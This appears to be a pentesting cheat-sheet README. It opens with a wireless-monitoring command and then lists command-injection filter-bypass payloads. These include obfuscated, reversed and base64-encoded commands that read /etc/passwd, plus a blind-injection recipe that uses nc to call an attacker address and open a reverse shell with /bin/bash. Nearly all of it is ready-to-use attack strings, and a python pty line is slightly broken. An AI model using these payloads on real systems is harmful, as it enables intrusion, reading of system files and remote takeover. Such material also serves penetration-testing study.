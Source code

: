 ### Get Original AP / MITM detection (part) by BSSID + ESSID filter

```shell
airodump-ng --band abg wlan0 / --essid AP_NAME / --bssid MAC_ADDRESS_OF_ORIGINAL_DEVICE
```

### Command Injection filter bypass - reflected

1. Using command seperate: ```; pwd```
2. Using command append: ```&& cat /etc/passwd```
3. Using pipe: ```| cat /etc/passwd```
4. Using quoted command - add quotes for any character in word (EX:```cat/et"c"/p"a"ssw"d"```)
5. Using wildcards - replace any word with "```*```" & "```?```" (EX:```cat /etc/pa*wd``` or ```cat /etc/p?sswd```)
6. Using null vars - add ``` `` ``` in between words (EX:```cat /e``tc/p``asswd```)
7. Multi bypass - (EX:``` |cat /"e"t``c/p?sswd ```)
8. Lethal injection 1 - reversed + multi filters (EX:```echo "dws?ap/c``t"e"/ tac" | rev | /bin/bash```)
9. Lethal injection 2 - reversed + endeded + multi filters (EX:```echo "ZHdzP2FwL2NgYHQiZSIvIHRhYw==" | base64 -d | rev | /bin/bash```)

Fuzzing for bypass: https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/command-injection.md

```"dws?ap/c``t"e"/ tac" | rev```


### Command Injection filter bypass - blind

1. Test reflection

On victim asset:

```shell
127.0.0.1 | nc ip_addr_attacker port_number
```

On attacker machine:

```shell
nc -lvp port_number
```

2. If reflection success, get reverse shell

On victim asset:

```shell
127.0.0.1 | nc ip_addr_attacker port_number -e /bin/bash
```

On attacker machine:

```shell
python -c "import pty:pty.spawn('/bin/bash')"
```
